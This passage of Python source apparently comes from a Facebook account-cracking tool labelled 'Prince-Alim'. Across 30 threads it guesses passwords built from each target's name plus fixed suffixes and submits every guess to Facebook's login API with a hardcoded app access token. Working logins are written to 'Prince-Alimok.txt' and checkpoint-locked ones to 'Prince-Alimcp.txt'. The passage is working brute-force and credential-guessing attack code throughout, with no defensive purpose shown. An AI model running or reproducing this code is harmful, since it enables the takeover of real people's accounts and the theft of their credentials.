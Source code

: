 													cp.close()
													cps.append(uid+pass5)
												else:
													pass6 = name.lower()+"1100"
													data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass6+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
													q = json.loads(data)
													if "access_token" in q:
														print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass6+"\033[0;97m")
														ok = open("Prince-Alimok.txt", "a")
														ok.write(uid+"|"+pass6+"\n")
														ok.close()
														oks.append(uid+pass6)
													else:
														if "www.facebook.com" in q["error_msg"]:
															print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass6+"\033[0;97m")
															cp = open("Prince-Alimcp.txt", "a")
															cp.write(uid+"|"+pass6+"\n")
															cp.close()
															cps.append(uid+pass6)
														else:
															pass7 = name.lower()+"786786"
															data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass7+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
															q = json.loads(data)
															if "access_token" in q:
																print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass7+"\033[0;97m")
																ok = open("Prince-Alimok.txt", "a")
																ok.write(uid+"|"+pass7+"\n")
																ok.close()
																oks.append(uid+pass7)
															else:
																if "www.facebook.com" in q["error_msg"]:
																	print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass7+"\033[0;97m")
																	cp = open("Prince-Alimcp.txt", "a")
																	cp.write(uid+"|"+pass7+"\n")
																	cp.close()
																	cps.append(uid+pass7)
		except:
			pass
	p = ThreadPool(30)
	p.map(main, id)
	print("")
	print("")
	print(47*"\x1b[1;92m-")
	print("   \x1b[1;92mThe process has been completed")
	print("   \x1b[1;92m Total Ok/Cp: "+str(len(oks))+"/"+str(len(cps)))
	print(47*"-")
	print("")
	print("")
	raw_input(" \x1b[1;93m Press enter to back ")
	menu()
def choice():
	global token
	os.system("clear")
	try: